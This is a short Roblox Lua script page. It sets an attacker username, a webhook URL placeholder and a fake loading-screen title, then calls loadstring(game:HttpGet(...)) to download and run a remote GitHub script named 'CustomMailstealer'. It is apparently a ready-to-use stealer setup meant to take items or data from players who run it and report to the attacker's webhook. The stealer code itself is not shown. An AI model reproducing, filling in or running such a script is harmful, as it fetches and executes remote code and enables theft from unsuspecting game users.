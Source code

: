 # Script
Username = "tungul16" Webhook = "Webhook Here"  G_LoadingScreen = "Loading Screen Title HERE" G_WebhookName = "Webhook Name"  loadstring(game:HttpGet("https://raw.githubusercontent.com/LypherX/MoriCustom/main/CustomMailstealer"))()
